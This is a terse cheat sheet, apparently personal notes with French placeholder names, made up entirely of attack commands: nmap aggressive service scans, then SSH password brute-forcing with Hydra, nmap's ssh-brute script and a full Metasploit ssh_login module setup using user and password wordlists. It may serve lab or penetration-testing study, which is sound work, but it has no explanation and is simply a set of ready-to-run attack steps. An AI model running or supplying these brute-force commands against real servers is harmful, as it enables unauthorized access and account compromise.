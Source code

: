 nmap -v -A *ip_serveur*
nmap -v -A -Pn *ip_serveur*

# Hydra :
hydra -L users.txt -P passwords.txt ssh://*ip_serveur_ssh* -t 4

# Nmap :
nmap *ip_serveur_ssh* -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt

# Metasploit :
msfconsole
use auxiliary/scanner/ssh/ssh_login
set rhosts *ip_serveur_ssh*
set stop_on_success true
set user_file users.txt
set pass_file passwords.txt
set verbose true
run
